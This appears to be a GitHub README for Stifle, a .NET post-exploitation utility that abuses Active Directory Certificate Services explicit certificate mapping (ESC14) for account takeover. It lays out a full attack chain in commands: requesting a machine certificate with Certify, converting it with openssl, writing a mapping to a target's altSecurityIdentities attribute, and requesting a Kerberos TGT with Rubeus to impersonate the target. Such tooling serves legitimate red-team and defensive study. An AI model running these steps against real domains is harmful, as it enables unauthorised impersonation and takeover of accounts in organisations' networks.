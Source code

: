# Description
Nearly a year ago, Jonas Knudsen ([@Jonas_B_K](https://x.com/Jonas_B_K)) over at SpecterOps published a blog titled “ADCS ESC14 Abuse Technique”, covering a previously known technique for leveraging Active Directory Certificate Services (ADCS) for multiple types of account takeover via explicit certificate mapping. He published a collection of PowerShell tooling used for generating and writing the `altSecurityIdenities` attribute as part of the primary variation of the abuse technique. Since this technique could be seen as the third main method of account takeover when holding a write primitive over an object (along with RBCD and Shadow Credentials), I thought it needed its own .NET tooling since I noticed there hasn't been a single release for the past year. 

Introducing Stifle, an extremely simple .NET post-exploitation utility that uses a passed certificate to set explicit certificate mapping on a target object, allowing authentication as the target object using the already held certificate mapped. 

```
   _____ _   _  __ _
  / ____| | (_)/ _| |
 | (___ | |_ _| |_| | ___
  \___ \| __| |  _| |/ _ \
  ____) | |_| | | | |  __/
 |_____/ \__|_|_| |_|\___|

 [*] Exploit explicit certificate mapping in Active Directory

 [*] Add an explicit certificate mapping on a target object by writing the required altSecurityIdentities value using a certificate and the certificate password:
        Stifle.exe add /object:target /certificate:MIIMrQI... /password:P@ssw0rd

 [*] Clear the altSecurityIdentities attribute, removing the explicit certificate mapping:
        Stifle.exe clear /object:target
```

# Use
First request a certificate using Certify that the target object will be mapped to (Note the certificate requested must be a machine account certificate):
```Certify.exe request /ca:lab.lan\lab-dc01-ca /template:Machine /machine```
![image](https://github.com/user-attachments/assets/6472d40d-333e-47a9-9f34-19380eec2463)

Then copy the certificate information into a `.pem` file and use the openssl binary on a unix-based system to convert to base64 `.pfx` format:
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export | base64 -w 0
```

Next copy the exported certificate and exported certificate password into Stifle, which will generate a certificate mapping string and write it to the target objects `altSecurityIdentities` attribute:
```
Stifle.exe add /object:target /certificate:MIIMrQI... /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/bfa06572-ac53-400f-8795-4542b89a41f8)


Finally request a TGT using PKINIT authentication, effectively impersonating the target user with Rubeus:
```
Rubeus.exe asktgt /user:target /certificate:MIIMrQI... /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/9e7045cf-ef52-4fd4-a380-592f28080a15)


